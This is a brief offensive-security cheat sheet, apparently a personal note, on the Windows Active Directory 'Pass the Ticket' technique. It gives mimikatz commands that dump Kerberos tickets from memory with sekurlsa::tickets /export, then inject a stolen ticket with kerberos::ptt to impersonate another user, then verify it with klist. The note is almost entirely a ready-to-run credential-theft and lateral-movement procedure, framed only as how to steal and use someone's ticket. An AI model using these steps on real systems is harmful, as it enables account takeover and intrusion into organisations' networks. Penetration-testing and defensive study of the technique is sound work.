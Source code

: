 ```yaml
---
id: Pass the Ticket
aliases:
  - Pass the Ticket
tags:
  - windows
  - AD
  - kerberos
  - lateral
---
```

Steal a user's auth ticket and use it to impersonate the user.
## With mimikatz.exe

1. In mimikatz:
```mimikatz
privilege::debug
sekurlsa::tickets /export
exit
```

2. Check generated tickets with `dir *.kirbi`

3. In mimikatz:
```mimikatz
kerberos::ptt $TICKET.kirbi
exit
```

4. Check that the ticket was created with `klist`
